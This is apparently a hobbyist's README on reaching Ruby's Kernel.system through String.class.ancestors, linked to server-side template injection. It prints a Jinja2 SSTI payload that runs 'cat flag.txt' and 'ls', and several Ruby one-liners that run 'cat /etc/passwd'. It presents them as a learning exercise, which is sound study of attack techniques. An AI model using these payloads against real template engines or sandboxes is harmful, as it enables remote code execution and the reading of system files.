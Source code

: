 # Using Ruby ancestors to Execute Code via the String class
## tldr/oneliner
`ruby -e '"".class.ancestors[3].system("cat /etc/passwd")'`
## Why?
So I was doing a bit of reading on [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), specifically that of [Jinja/python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution) which looks like this:

```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

For an explanation on how these work in python, I recommend checking out [this writeup](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee). Essentially, it made me wonder if you could do the same thing in ruby, and you definitely can (at least the accessing other methods part). No pwnz yet from me (though I can't be the first to think of this, so it may be a nothingburger, or just a cool trick) 
## How it works
In ruby, you would start by delcaring a string:
```
somestring = "a string";
```
This would create an object from the [String](https://ruby-doc.org/core-2.7.2/String.html) class. Thus, it would have access to all the methods of the String class. It _also_ has some ancestor classes. You can access these like so:
```
somestring = "a string";
puts somestring.class.ancestors;
```
When you run that, you should see the output:
```
String
Comparable
Object
Kernel
BasicObject
```
This is an array of ancestor methods/classes of the String class. Thus, you can access them by index!
```
somestring = "a string";
puts somestring.class.ancestors[3];
```
When you run that, you should see the output:
```
Kernel
```
We are now accessing the [Kernel](https://ruby-doc.org/core-2.7.2/Kernel.html) module, which has some pretty interesting methods... The _most_ interesting to me is the [system](https://ruby-doc.org/core-2.7.2/Kernel.html#method-i-system) method. Using this method, you can execute arbitrary shell commands.
```
somestring = "a string";
somestring.class.ancestors[3].system("cat /etc/passwd");
```
## PoC
![](ruby-classes.gif)
So, just a fun learning experience for me on how you can access things in unique ways in Ruby!
